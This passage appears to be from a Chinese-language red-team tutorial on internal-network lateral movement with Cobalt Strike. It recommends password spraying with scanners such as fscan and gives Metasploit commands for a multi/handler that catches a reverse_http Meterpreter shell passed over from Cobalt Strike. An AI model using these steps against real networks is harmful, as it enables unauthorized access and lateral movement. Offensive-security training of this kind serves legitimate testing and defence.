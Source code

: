 在利用`cs`进行横向移动时，发现如果`主机和口令`数量足够多的话，比较影响效率，可以使用相关口令扫描工具进行密码喷射如`超级弱口令扫描工具`、`fscan`等，然后进行集中利用。

下面使用`cs派生到msf`进行口令探测和利用：

首先 cs 建立 msf 监听器

[![](assets/1702372940-ac0b7b4203c0c98807f3cb43ecc802fc.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/12.png)

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 8888
run
```

[![](assets/1702372940-d5fc4489c4904052b042ef6009490d77.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/34.png)

选择之后，msf 就会立马收到 CS 送的 (派生)shell 权限。
